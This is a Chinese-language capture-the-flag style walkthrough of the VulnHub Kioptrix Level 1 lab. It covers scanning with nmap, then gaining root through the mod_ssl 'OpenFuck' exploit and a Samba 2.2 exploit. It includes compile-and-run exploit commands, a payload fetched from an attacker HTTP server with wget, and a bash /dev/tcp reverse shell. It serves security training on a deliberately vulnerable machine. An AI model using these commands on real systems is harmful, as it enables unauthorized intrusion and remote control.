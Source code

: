 # 环境

来自[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

解压之后，`Kioptix Level 1.vmx`修改启动配置，`ethernet0.connectionType = "Bridged"`改成`nat`

# 信息收集

## 发现主机

工具nmap、arp-scan

```bash
nmap -sn 192.168.88.0/24
sudo arp-scan -l  #可以用这个，可以获取ip和mac
```

![image-20240611213509502](image/image-20240611213509502.png)

发现`192.168.88.11`是我们的目标靶机

## 端口扫描

工具nmap、masscan

```bash
sudo nmap -p- -sS 192.168.88.11
```

![image-20240611220942688](image/image-20240611220942688.png)

## 服务详细扫描

```bash
sudo nmap -p22,80,111,139,443,1024 -sV 192.168.88.11
```

结果，攻击面80>443>139>22

![image-20240615133839095](image/image-20240615133839095.png)

# 测试利用

## getshell_1

访问80端口发现，出现apache测试页面，乍一看没啥可利用的，但`apache/1.3.20`,`mod_ssl/2.8.4`版本较低，搜索漏洞

```bash
searchsploit mod_ssl
```

![image-20240615134822632](image/image-20240615134822632.png)

调用脚本

```bash
searchsploit -m 47080  #或者使用cp /usr/share/exploitdb/exploits/unix/remote/47080.c ./
sudo apt install libssl-dev
gcc -o exp 47080.c -lcrypto
./exp #会告诉你参数
```

查看脚本的提示，所需依赖`libssl-dev`，以及编译命令`gcc -o OpenFuck 47080.c -lcrypto`

![image-20240615141225657](image/image-20240615141225657.png)

参数目标系统、目标IP、端口、延迟`./OpenFuck 0x6b 192.168.88.11 443 -c 40`成功拿shell

![image-20240615141958706](image/image-20240615141958706.png)

![image-20240615142839158](image/image-20240615142839158.png)

按道理是应该是root权限，可能是ptrace-kmod.c没有执行成功，查看脚本，发现这个wget没有执行成功，我们开启服务，设法让目标可以下载我们的提取脚本

![image-20240615143215752](image/image-20240615143215752.png)

我们使用编写一个http-server服务，让靶机可以下载我们的脚本

```python
import http.server
import socketserver
# 定义端口号
PORT = 80
# 使用简单的 HTTP 处理程序
Handler = http.server.SimpleHTTPRequestHandler
# 启动服务器
with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print("在端口", PORT, "启动 HTTP 服务器...")
    # 保持服务器运行，直到手动中断
    httpd.serve_forever()
```

![image-20240615150214629](image/image-20240615150214629.png)

`wget 192.168.88.10/ptrace-kmod.c`，我们再次连接，即可是root权限

![image-20240615150148087](image/image-20240615150148087.png)

接下来进行反弹shell，在kali执行`nc -lvvp 8888`，在靶机执行`bash -i >& /dev/tcp/192.168.88.10/8888 0>&1`

![image-20240615151136698](image/image-20240615151136698.png)

## getshell_2

除了apache的mod_ssl之外，还有一个139端口Samba服务，先探测具体版本，可以使用msfconsle

```bash
msfconsole
search smb_version
set rhost 192.168.88.11
run
```

Samba版本是2.2.1a

![image-20240615151909816](image/image-20240615151909816.png)

利用漏洞脚本

```bash
searchsploit samba 2.2
searchsploit -m 10 #或者使用cp /usr/share/exploitdb/exploits/multiple/remote/10.c ./
gcc 10.c -o samba_exp
./samba_exp -b 0 -v 192.168.88.11
```

![image-20240615153034836](image/image-20240615153034836.png)

